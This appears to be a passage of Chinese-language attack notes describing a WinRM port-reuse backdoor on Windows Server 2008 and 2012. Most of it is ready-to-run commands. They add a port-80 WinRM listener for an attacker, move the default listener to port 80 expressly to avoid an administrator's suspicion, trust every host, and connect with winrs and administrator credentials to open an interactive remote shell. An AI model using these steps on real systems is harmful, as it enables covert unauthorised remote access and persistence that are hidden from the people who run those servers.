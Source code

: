 ```text
netsh http show servicestate	#查看所有在HTTP.sys上注册过的url前缀
```

**1、 开启WinRM服务**

WinRm使用端口：`http 5985、https 5986`

`Server 2012`及之后，已经默认开启WinRM并监听了`5985`端口

`Server 2008`及之前的系统

```text
winrm quickconfig -q			#开启WinRM并自动从防火墙放行`5985`端口
```

**2、 Server 2012配置，新增80端口Listerner**

对于原本就开放了WinRM的机器（Server 2012），需要保留该端口，以免影响系统管理员正常使用

同时还需要新增一个80端口的Listener供攻击者使用

```text
winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}

winrm e winrm/config/Listener	#查看80端口的Listener是否出现
netsh http show servicestate	#查看是否新增了url前缀
```

**3、Server 2008配置，修改WinRM端口**

对于原本未开放WinRM服务的机器（Server 2008），需要把新开的**5985**端口修改至80端口，避免引起系统管理员怀疑

```text
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
```

**4、后门连接**

 首先开启本机WinRM服务，然后设置信任连接的主机

```text
winrm quickconfig -q 	# 开启服务
winrm set winrm/config/Client @{TrustedHosts="*"}  # 设置信任连接的主机
```

 执行使用winrs命令连接远程WinRM服务，获取交互shell

```text
winrs -r:http://www.baidu.com -u:administrator -p:P@ssw0rd cmd
```

端口复用相关工具： [https://github.com/Heart-Sky/port-multiplexing](https://github.com/Heart-Sky/port-multiplexing)

## 参考连接 <a id="&#x53C2;&#x8003;&#x8FDE;&#x63A5;"></a>

 [端口复用后门 - 0x4D75 - 博客园](https://www.cnblogs.com/0x4D75/p/11381449.html#%E4%B8%80-%E7%AB%AF%E5%8F%A3%E5%A4%8D%E7%94%A8)

